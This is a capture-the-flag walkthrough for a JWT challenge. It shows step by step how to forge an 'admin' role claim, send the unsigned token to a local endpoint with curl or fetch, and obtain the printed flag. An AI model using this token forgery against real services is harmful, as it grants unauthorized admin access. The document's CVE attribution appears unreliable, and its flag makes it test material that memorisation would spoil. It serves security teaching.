 **HOW TO SOLVE: TOKEN OF DECEIT**

1. Sign up
   
     •	Create an account to be automatically assigned the "user" role.

2. Login

     •	After account creation, you’ll be redirected to the login page.
   
     •	Use the same credentials to log in.
   
     •	Upon successful login, the server generates and sends a JWT.

3. Decode the JWT without verifying the signature
   
     a. Open the console:
   
       •	On MacOS, press (Option + Command + J).
   
       •	On Windows, press (Ctrl + Shift + J).
       
     b. You’ll see the following message: **GET http://localhost:3000/admin 403 (Forbidden)**
   
     c. Run the following command in the console to get the token, containing three parts, each separated by a period (.):
   
        localStorage.getItem('token');
      
     d. The token role will be "user" as per your credentials.
   
     e. Visit jwt.io and paste the JWT into the "Encoded" field to view the decoded payload.

4. Manipulate the JWT Payload
     a. Change the role to "admin".
   
       For example:
       {
         "username": "isabella",
         **"role": "admin",**
         "iat": 1738901843,
         "exp": 1738905443
       }
   
     b. No need to re-sign the token, as the program has a vulnerability that does not verify the signature.
   
     c. Your JWT is now modified.

5. Send the Manipulated JWT to the Server (2 ways)
   
   You can use one of the following methods to send the modified JWT to the server:
   
   a. Using cURL (command line):
   
     •	Open your terminal and type:
     
       curl -H "Authorization: Bearer MANIPULATED-JWT" http://localhost:3000/admin
   
   b. Using the Browser Console:
   
     •	Run this JavaScript:
     
       fetch("http://localhost:3000/admin", {
           method: "GET",
           headers: {
               "Authorization": "Bearer MANIPULATED-JWT"
           }
       })
       .then(response => response.json())
       .then(data => console.log(data))
       .catch(error => console.error("Error:", error));

6. Access the Admin Endpoint and Retrieve the Flag
    
     a. The server will decode the manipulated token and grant admin access.
    
     b. The server will respond with the flag:
   
      {"flag":"ATHACKCTF{trust_is_a_vulnerability}"}

**Vulnerability:**
•	CVE-2022-23529 (jsonwebtoken <=8.5.1): The server fails to verify the JWT's signature, allowing the payload to be manipulated without detection.


Ensure that all dependencies required to build or run the solution are provided (e.g., `requirements.txt`) or thoroughly documented.
